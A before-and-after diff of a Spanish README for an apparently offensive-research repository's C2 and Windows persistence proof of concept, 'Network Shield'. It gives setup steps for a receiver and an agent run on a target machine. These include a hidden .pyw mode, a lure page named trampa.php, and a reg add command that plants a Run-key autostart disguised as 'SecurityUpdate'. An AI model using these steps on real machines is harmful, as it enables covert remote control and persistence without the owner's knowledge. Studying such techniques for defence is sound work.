

Before and after one commit to xalexlopez00/Offensive-Research, a Markdown page: Persistence-PoCs/Network-Shield-System/readme.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; badges without logos; blank space fills up the shorter version.

```diff
--- a/Persistence-PoCs/Network-Shield-System/readme.md
+++ b/Persistence-PoCs/Network-Shield-System/readme.md
@@ -1,7 +1,13 @@
 <p align="center">
-  <img src="https://img.shields.io/badge/Network_Shield-Remote_Admin-007bff?style=for-the-badge&logo=opsgenie" alt="Shield Badge">
-  <img src="https://img.shields.io/badge/Status-PoC-brightgreen?style=for-the-badge" alt="Status PoC">
-  <img src="https://img.shields.io/badge/Security-Educational-f44336?style=for-the-badge&logo=eset" alt="Security Educational Badge">
+  <a href="#-requisitos-del-sistema">
+    <img src="https://img.shields.io/badge/Network_Shield-Remote_Admin-007bff?style=for-the-badge&logo=opsgenie" alt="Shield Badge">
+  </a>
+  <a href="#-ejecución-y-pruebas">
+    <img src="https://img.shields.io/badge/Status-PoC-brightgreen?style=for-the-badge" alt="Status PoC">
+  </a>
+  <a href="https://www.python.org/">
+    <img src="https://img.shields.io/badge/Python-3.x-ffd343?style=for-the-badge&logo=python&logoColor=black" alt="Python Badge">
+  </a>
 </p>
 
 # <p align="center">🛡️ Network Shield</p>
@@ -9,76 +15,65 @@
 
 ---
 
-> <p align="center"><b>Una Prueba de Concepto (PoC) para el estudio de sistemas de administración remota (C2) y técnicas de persistencia en entornos Windows.</b></p>
+<p align="center">
+  <b>Una Prueba de Concepto (PoC) avanzada para el estudio de sistemas de administración remota (C2) y técnicas de persistencia en entornos Windows.</b>
+</p>
 
 ---
 
-### <p align="center"><b>⚠️ AVISO LEGAL CRÍTICO ⚠️</b></p>
+### <p align="center">⚠️ AVISO LEGAL CRÍTICO</p>
 
 <p align="center">
-  <i>Este software ha sido creado exclusivamente con fines educativos y de investigación en ciberseguridad. El autor no se hace responsable del mal uso de este código. El uso en sistemas sin autorización es ilegal.</i>
+  <i>Este software ha sido creado exclusivamente con fines educativos. El autor no se hace responsable del mal uso de este código. El uso en sistemas sin autorización es ilegal.</i>
 </p>
 
 ---
 
 ## 🛠️ Requisitos del Sistema
 
-Para desplegar este entorno, asegúrate de contar con:
-
 * **XAMPP**: Servidor Apache y MySQL (MariaDB).
-* **Python 3.x**: Instalado correctamente en el PATH de tu sistema.
-* **Librerías Python**: Ejecuta el siguiente comando en tu terminal para instalar las dependencias: `pip install requests`.
-* **Base de Datos**: Importar el esquema de base de datos incluido en el archivo `server/db.txt`.
+* **Python 3.x**: Instalado correctamente en el PATH.
+* **Librerías**: Ejecuta **pip install requests** en tu terminal.
+* **Base de Datos**: Importar el esquema incluido en **server/db.txt**.
 
 ---
 
 ## 🚀 Guía de Instalación y Configuración
 
-Sigue estos pasos para poner en marcha tu entorno de pruebas:
-
 ### 1. Preparación de la Base de Datos
-
-1.  Inicia los módulos **Apache** y **MySQL** desde el panel de control de XAMPP.
-2.  Accede a tu gestor de base de datos en: `http://localhost/phpmyadmin`.
-3.  Crea una nueva base de datos llamada `network_shield_db`.
-4.  Importa el contenido de `server/db.txt` utilizando la pestaña **SQL** de phpMyAdmin.
+1.  Inicia **Apache** y **MySQL** desde el panel de XAMPP.
+2.  Accede a **http://localhost/phpmyadmin**.
+3.  Crea una base de datos llamada `network_shield_db`.
+4.  Importa el contenido de `server/db.txt` en la pestaña **SQL**.
 
 ---
 
-### 2. Configuración del Servidor Web
-
-1.  Mueve la carpeta completa `Network-Shield-System` a la ruta `C:\xampp\htdocs\`.
-2.  El panel de control será accesible en: `http://localhost/Network-Shield-System/server/index.php`.
+### 🔗 2. Configuración del Servidor Web
+1.  Mueve la carpeta `Network-Shield-System` a `C:\xampp\htdocs\`.
+2.  El panel será accesible en: **http://localhost/Network-Shield-System/server/index.php**.
 
 ---
 
 ## 📡 Ejecución y Pruebas
 
-Sigue este orden estricto para establecer el enlace correctamente:
+Sigue este orden estricto para establecer el enlace:
 
 ### 🟢 Paso 1: Iniciar el Receptor (Master)
-
-Abre una terminal en la carpeta `master/` y lanza el centro de control ejecutando el siguiente comando:
+Abre una terminal en la carpeta `master/` y lanza el centro de control:
 **python receptor.py**
 
 ---
 
 ### 🔵 Paso 2: Lanzar el Agente (Client)
-
-Ejecuta el script en el equipo objetivo para iniciar la conexión:
-
-* **Modo Manual**: `python client/agente.py`
+* **Modo Manual**: python client/agente.py
 * **Modo Invisible**: Renombra el archivo a `agente.pyw` y ejecútalo.
-* **Simulación Web**: Accede desde un navegador a la URL: `http://localhost/Network-Shield-System/server/trampa.php`.
+* **Simulación Web**: Accede a **http://localhost/Network-Shield-System/server/trampa.php**
 
 ---
 
 ## 🔐 Implementación de Persistencia
 
-La persistencia permite que el agente se ejecute automáticamente cada vez que el usuario inicie sesión en Windows.
-
 ### 1️⃣ Instalación (Crear Registro)
-
 Envía este comando desde la terminal del receptor para registrar el agente:
 **reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "pythonw.exe C:\xampp\htdocs\Network-Shield-System\client\agente.pyw" /f**
 
```
Also changed, not shown: other parts of Persistence-PoCs/Network-Shield-System/readme.md (+10 -23 lines).
